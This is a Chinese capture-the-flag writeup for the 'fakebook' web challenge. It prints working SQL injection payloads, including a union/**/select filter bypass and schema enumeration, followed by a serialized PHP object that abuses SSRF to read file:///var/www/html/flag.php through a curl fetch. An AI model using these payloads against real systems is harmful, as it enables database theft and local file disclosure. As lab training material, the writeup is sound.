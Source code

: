 <!--yml
category: 未分类
date: 2022-04-26 14:52:27
-->

# 攻防世界-web-fakebook-从0到1的解题历程writeup_CTF小白的博客-CSDN博客_攻防世界fakebook

> 来源：[https://blog.csdn.net/qq_41429081/article/details/105495932](https://blog.csdn.net/qq_41429081/article/details/105495932)

## 题目分析

拿到题目发现有注册登录界面，一般给了注册界面的很少会是sql注入登陆界面的，所以尝试先注册一个账号。

![图片](img/7bcc9a1479e36cefd40e60647078cc3d.png)

发现这边会加载注册时填写的blog地址，并将内容加载到一个iframe中。

这时发现网址为

```
http://159.138.137.79:55692/view.php?no=1 
```

感觉就是有sql注入漏洞，虽然不知道考点在不在这，但是先注了再说。
![图片](img/7c8917bab4405897ad9b8cef71d2a1c2.png)

尝试了一下就发现是数字型注入

sqlmap一把梭失败emmm

尝试下手工注入

获取到列数位4列

```
http://159.138.137.79:55692/view.php?no=1 order by 4# 
```

查询数据库

```
http://159.138.137.79:55692/view.php?no=-1 union select 1,1,1,database()# 
```

![图片](img/dbb791027ff8b0daa9294636b98c0ac4.png)

果然，找到了sqlmap失败的原因。既然这边有过滤那么本题不出意外考点应该就在这里了。

## 解题思路

第一步找到过滤掉了哪些。

尝试了一下发现过滤了union select

使用union/**/select绕过

```
http://159.138.137.79:55692/view.php?no=-6 union/**/select 1,2,3,4# 
```

![图片](img/23f096d91195af69272bb5625c2b08d7.png)

发现username处显示出来了，其余地方为反序列化失败。所以先在username处将数据带出。

```
http://159.138.137.79:55692/view.php?no=-6 union/**/select 1,database(),3,4 
```

得到database为fakebook

```
http://159.138.137.79:55692/view.php?no=-6 union/**/select 1,(SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA="fakebook"),3,4 
```

得到表名为users

```
http://159.138.137.79:55692/view.php?no=-6 union/**/select 1,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'users'),3,4 
```

得到字段为no,username,passwd,data
明显no，username，passwd为账号基本信息，查询data

```
http://159.138.137.79:55692/view.php?no=-6 union/**/select 1,(SELECT GROUP_CONCAT(data) FROM fakebook.users),3,4 
```

得到
![图片](img/2d8e3ace9a5052f394f66fce66f69c6e.png)

将得到的data传入联合查询第四列的返回结果

![图片](img/d0d309c85dc0bb77f4de4697db843f15.png)

发现可以成功解析。

使用nikto对网站进行扫描发现

![图片](img/547c73fd31bd68a43377a6129d6c2bf2.png)

有user.php的备份文件

```
function get($url)
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);
        return $output;
    } 
```

这边get传入的就是用户信息中的blog地址，如果不是404就会将内容读出来。
存在ssrf文件读取

```
http://159.138.137.79:55692/view.php?no=-6 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:9;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' 
```

读取file:///var/www/html/flag.php即可